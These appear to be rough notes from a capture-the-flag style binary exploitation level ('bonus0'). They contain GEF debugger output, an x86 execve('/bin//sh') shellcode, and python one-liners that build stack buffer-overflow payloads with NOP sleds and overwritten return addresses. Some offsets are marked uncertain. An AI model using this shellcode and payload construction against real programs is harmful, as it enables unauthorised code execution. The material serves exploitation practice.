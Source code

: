 gef➤  pattern offset 0x65616161
[+] Searching for '61616165'/'65616161' with period=4
[+] Found at offset 9 (little-endian search) likely

 stopped 0x65616161 in ?? (), reason: SIGSEGV

- buffer address = 0xbffff606
- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
28
- offset = 13 ?

payload = shell code (20 byte) + \n +shell code (1byt) + Offset - 1 + buffer address

python3 -c 'import sys; sys.stdout.buffer.write(b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd" + b"A" * 4074 + b"\n" + b"\x80"+ b"\x90" * 12 + b"\xd6\xd2\xff\xff" + b"B" * 20 +  b"\n")'

entry buffer 4000 in p = 0xbfffe5e4

<(python2.7 -c 'import sys; sys.stdout.write(b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + b"\x90" * 4074 + b"\n" + b"\x80" + b"\x90" * 8 + b"\x06\xf6\xff\xbf" + b"B" * 20 + b"\n")')

cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 100 + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + b"\x90" * 3974 + b"\n" + b"\x90" * 9 + b"\xe4\xe5\xff\xbf" + b"B" * 20 + b"\n")') - | ./bonus0

gef➤  x/100xw 0xffffc2b4
0xffffc2b4:	0x99580b6a	0x2f2f6852	0x2f686873	0x896e6962
0xffffc2c4:	0xcdc931e3	0x90909080	0x90909090	0x90909090

entry buffer main = 0xbffff606